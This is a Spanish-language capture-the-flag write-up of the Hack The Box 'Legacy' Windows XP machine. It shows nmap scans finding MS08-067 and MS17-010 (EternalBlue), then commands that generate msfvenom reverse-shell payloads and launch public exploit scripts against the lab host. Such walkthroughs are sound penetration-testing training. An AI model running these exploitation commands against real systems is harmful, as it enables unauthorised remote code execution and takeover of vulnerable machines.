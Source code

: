 # Legacy ![Avatar](https://www.hackthebox.eu/storage/avatars/60dc190c4c015cfe3a3aef9b5afca254_thumb.png)     

## Initial Scan

```nmap
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m50s, deviation: 2h07m16s, median: 4d22h57m50s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:57:05 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-08-02T21:04:14+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```
## Enumeration

Busquemos vulnerabilidades asociadas a los puertos abiertos
```bash
sudo nmap -p 445 --script vuln 10.10.10.4
```
```
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|_smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

## Exploit

### MS17-010

Utilizaremos el script de send_and_execute de este repositorio
```web
https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
```
Generamos una reverse shell para windows en formato ejecutable
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f exe -a x86 — platform windows -o rev_shell.exe
```
Ejecutamos el script mencionado arriba
```bash
python2.7 send_and_execute.py 10.10.10.4 rev_shell.exe
```
### MS08-67

Utilizaremos el siguiente script para la explotación
```
https://github.com/andyacer/ms08_067
```
Generamos el payload necesario para la reverse shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
Sustituimos este en la parte correspondiente del exploit`y lo lanzamos
```
python ms08_067_2018.py 10.10.10.4 6 445
```
Y ya estaría

# Analisís de la intrusión
### CVE-2017-0144, MS17-010 , Eternalblue
La máquina objetivo presentaba la vulnerabilidad conocida como Eternalblue que permite RCE en la máquina objetivo.
### CVE-2008-4250 , MS08-67 ,Server Service Vulnerability
La máquina objetivo presentaba una vulnerabilidad que permitía RCE mediante una petición RPC maliciosa.
